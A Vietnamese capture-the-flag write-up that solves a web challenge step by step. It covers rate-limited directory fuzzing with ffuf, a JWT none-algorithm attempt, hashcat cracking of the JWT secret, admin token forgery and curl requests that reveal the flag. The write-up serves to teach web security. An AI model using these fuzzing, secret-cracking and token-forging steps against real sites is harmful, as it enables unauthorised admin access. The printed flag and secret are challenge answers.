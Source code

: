 # Hay dao choi va thanh admin  



## Thông tin về challenge:  

**- Author:** Mèo Bếu  
**- Tags:**  
**- Description:** Một thử thách đơn giản, trở thành Admin của trang web và bạn có thể làm bất cứ điều gì bạn muốn.
Chúc mọi người vượt qua thử thách hehehe  
**- Hint:**  
**- Link:** https://notadmin.fia.io.vn/  

## Cách giải:  
### Trước khi giải, chúng ta cần:  
- Ffuf  
- Seclist  
### Bước 1: Sử dụng ffuf cùng với seclists để bruteforce directories của link challenge.  
Đầu tiên sử dụng common list có sẵn của seclists để tìm những directories phổ biến.  
```
  ffuf -u https://notadmin.fia.io.vn/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -o output.txt
```
![image](https://github.com/user-attachments/assets/cb36e35c-5684-4b5f-8aa3-272c458b7ede)  
Như ta có thể thấy, đa số status là 429, có nghĩa là quá nhiều request trong 1 giây. Có vẻ server đã limit lại để tránh automated request.  
Chúng ta sẽ dùng lại ffuf, nhưng làm chậm tốc độ của nó lại còn 10 request 1 giây để tránh bị phát hiện.
```
  ffuf -u https://notadmin.fia.io.vn/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -rate 10 -mc all -o output.txt
```
Sau khi "grep -v "404" result.txt", có 2 directoris chúng ta cần lưu ý, dó là admin và robots.txt.  
Tiếp theo cùng đến với bước 2.
### Bước 1 (cách khác): Rùa ![image](https://github.com/user-attachments/assets/286e50ef-7ef2-4bb8-bfc4-29ee68b2ab82) 
** Đây là cách lúc đầu mình dùng để giải, hên hên được luôn   **
Đầu tiên test https://notadmin.fia.io.vn/robots.txt theo phản xạ  
Vì đề tên là trở thành admin, nên thử https://notadmin.fia.io.vn/admin luôn 

### Bước 2:
- Thử truy cập https://notadmin.fia.io.vn/admin, nhưng ta được "YOU DO NOT HAVE PERMISSION TO ACCESS THIS PAGE" và bị redirect về trang chính.  
  Có vẻ như chúng ta không có quyền admin để truy cập.  
- Thử truy cập https://notadmin.fia.io.vn/robots.txt, ta được:   
 User-agent: *
Disallow: /s3cr3t-p@ssw0rd
- Bằng gợi ý đó, ta tiếp tục truy cập https://notadmin.fia.io.vn/s3cr3t-p@ssw0rd. Ta được 1 danh sách password siêu dài.

#### Bằng tất cả những thông tin trên, ta liền nghĩ tới lỗ hổng bảo mật JWT.
Chúng ta đến với bước 3.

### Bước 3: Lấy JWT và bắt đầu tấn công.
- Lấy JWT bằng F12 -> Application -> token -> value  
![image](https://github.com/user-attachments/assets/3736cada-da0a-4119-865d-ca35f60b7ced)
#### Đầu tiên chúng ta sẽ thử "None Algorithm Attack".
- Copy token đó và truy cập token.dev.
- Chỉnh algorithm thành none.
- Sửa is_admin thành true.  
 ![image](https://github.com/user-attachments/assets/0e35f4a8-8e8f-401e-ad68-36eb19884fb3)


- Copy token mới và paste lại vào chỗ token trên web.(Nhớ thêm dấu chấm cuối token để làm nó vẫn valid).
- Thử truy cập lại https://notadmin.fia.io.vn/admin, ta vẫn chưa có quyền admin, vậy là cách này đã thất bại.
#### Tiếp theo chúng ta thử "Weak Secret Brute-Force".
- Ta được một danh sách password siêu dài ở bước 2, có thể dó là gợi ý để bruteforce secret bằng danh sách đó.  
- Ta có thể dùng jwt-cracker, hashcat hoặc john để crack jwt.  
- Mình sẽ dùng hashcat:
  ```
  hashcat -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19hZG1pbiI6ZmFsc2UsImV4cCI6MTczOTYxNzI0M30.JXLMnn4x-JtbozcIW8E67P1flMorrm4aSg0GOPXngAU balls.txt
  ```
- Khi chạy xong, ta được secretkey: "MeoBeu8ecb636c"
  ![image](https://github.com/user-attachments/assets/98ee3747-bf3f-4f99-9984-0c15040e1067)
- Chúng ta cùng chuyển đến bước 4.

  ### Bước 4: Dùng secret key để trở thành admin.
  - Ta đã có được token và secret key, truy cập jwt.io để thay secret key thành "MeoBeu8ecb636c", is_admin thành true.
    ![image](https://github.com/user-attachments/assets/036af924-2394-430a-9bc4-4d727431617c)
  - Thử truy cập lại https://notadmin.fia.io.vn/admin, ta được 1 cái logo FIA cùng chữ gì đó nhưng redirect rất nhanh về trang home.
  - Thử curl để lấy nội dung của trang đó trước khi redirect.
    ```
    curl -X GET "https://notadmin.fia.io.vn/admin" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19hZG1pbiI6dHJ1ZSwiZXhwIjoxNzM5NjE3MjQzfQ.kQnEFRUOptX4-EWj7UaHdi8c8GmwKSp4B2UnpswpP9k"
    ```
  - Ta được một đoạn đáng chú ý như sau:
    ![image](https://github.com/user-attachments/assets/ea66cdb0-acf6-4155-8e47-6d259e7daacf)
  - Lấy " TGV0cyBjcmVhdGUgYSBQT1NUIHJlcXVlc3QgdG8gL2FkbWluIHdpdGggSlNPTiBmb3JtYXQgImhhY2tlcj1NZW9CZXVJc0hlcmUi" lên cyberchef.io.
    ![image](https://github.com/user-attachments/assets/018d67fc-70bc-4e14-be77-ad2a8e0b2276)
  - Được hint "Lets create a POST request to /admin with JSON format "hacker=MeoBeuIsHere"". Ta sẽ sửa lại curl như sau:
    ```
    curl -X POST "https://notadmin.fia.io.vn/admin" -H "Content-Type: application/json" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19hZG1pbiI6dHJ1ZSwiZXhwIjoxNzM5NjE3MjQzfQ.kQnEFRUOptX4-EWj7UaHdi8c8GmwKSp4B2UnpswpP9k" -d "{\"hacker\": \"MeoBeuIsHere\"}"
    ```
![image](https://github.com/user-attachments/assets/66fc4bea-16bd-4652-b7bf-491ed9bbb49c)

## Ta được flag: "FIA{you_cracked_jwt_and_captured_the_request}"

    

















